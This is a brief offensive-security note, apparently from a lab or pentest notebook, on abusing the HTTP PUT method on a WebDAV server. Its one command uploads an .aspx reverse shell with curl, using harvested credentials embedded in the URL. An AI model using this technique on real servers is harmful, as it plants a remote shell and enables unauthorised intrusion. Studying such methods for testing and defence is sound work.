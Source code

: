 # Insecure HTTP Method Abuse

## Introduction

This is an uncommon thing for public web pages to have, but say we come across an internal WebDAV server that allows the following HTTP methods for authenticated users.

<figure><img src="../../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

In the following example, I'll abuse the "<mark style="color:yellow;">**PUT**</mark>" method to upload a malicious file to the web server w/ credentials I harvested.&#x20;

## Exploit

### Upload .aspx reverse shell

In order to upload a file, we'll need a set of credentials. Lucky enough we have them.&#x20;

```shell-session
$ curl -T shell.aspx http://fmcsorley:CrabSharkJellyfish192@192.168.191.122/
```

### Navigate to page

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

### Success!

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>
